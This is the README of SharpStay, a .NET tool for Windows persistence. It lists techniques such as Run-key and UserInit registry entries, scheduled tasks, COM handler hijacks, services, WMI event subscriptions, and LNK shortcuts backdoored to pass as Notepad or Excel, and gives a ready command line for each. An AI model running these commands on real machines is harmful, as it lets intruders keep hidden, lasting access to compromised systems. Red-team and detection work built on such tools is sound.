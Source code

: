 
### SharpStay - .NET Persistence 


#### Building
To compile open Visual Studio project and compile for release.

#### Options

  * Elevated Registry Keys
  * Elevated UserInit Registry Key
  * Elevated Scheduled Task
  * Elevated Create Service
  * Elevated WMI Event Subscription


  * Non-Elevated InitMprLogonScript Registry Key
  * Non-Elevated Scheduled Task COM Handler Hijack
  * Non-Elevated Junction Folder


  * Misc Add Scheduled Task Action
  * Misc Startup Directory
  * Misc New LNK
  * Misc Backdoor LNK
  * Misc Task Names
  * Misc List Scheduled Tasks
  * Misc List Running Services
  * Misc Get Scheduled Task COM Handlers

```
Sharpstay.exe action=ElevatedRegistryKey keyname=Debug keypath=HKCU:Software\Microsoft\Windows\CurrentVersion\Run command="C:\Windows\temp\fun.exe"
```

```
Sharpstay.exe action=UserRegistryKey keyname=Debug keypath=HKCU:Software\Microsoft\Windows\CurrentVersion\Run command="C:\Windows\temp\fun.exe"
```

```
Sharpstay.exe action=UserInitMprLogonScriptKey command="C:\Windows\temp\fun.exe"
```

```
Sharpstay.exe action=ElevatedUserInitKey command="C:\Windows\temp\fun.exe"
```

```
Sharpstay.exe action=ScheduledTask taskname=TestTask command="C:\windows\temp\file.exe" runasuser=user1 triggertype=logon author=Microsoft Corp. description="Test Task" logonuser=user1
```

```
Sharpstay.exe action=ScheduledTaskAction taskname=TestTask command="C:\Windows\temp\fun.exe" folder="\\" actionid=ExecAction
```

```
Sharpstay.exe action=SchTaskCOMHijack clsid={a47af52a-27f9-4426-bd2b-727050712db1} dllpath="C:\windows\temp\fun.dll"
```

```
Sharpstay.exe action=CreateService servicename=TestService command="C:\Windows\temp\fun.exe"
```

```
Sharpstay.exe action=WMIEventSub command="C:\Windows\temp\fun.exe" eventname=Debugger attime=startup 
```

```
Sharpstay.exe action=JunctionFolder dllpath="C:\windows\temp\fun.dll guid={a47af52a-27f9-4426-bd2b-727050712db1}
```

```
Sharpstay.exe action=NewLNK filepath="C:\users\admin\desktop" lnkname="Notepad.lnk" lnktarget="C:\Windows\temp\file.exe" lnkicon="C:\Windows\system32\notepad.exe"
```

```
Sharpstay.exe action=BackdoorLNK command="C:\Windows\temp\fun.exe" lnkpath="C:\users\user\desktop\Excel.lnk"
```

```
Sharpstay.exe action=ListTaskNames
```

```
Sharpstay.exe action=ListScheduledTasks
```

```
Sharpstay.exe action=ListRunningServices
```

```
Sharpstay.exe action=GetScheduledTaskCOMHandler
```

`cleanup=true` is an option for each persistence type.

Part of [StayKit](https://github.com/0xthirteen/StayKit)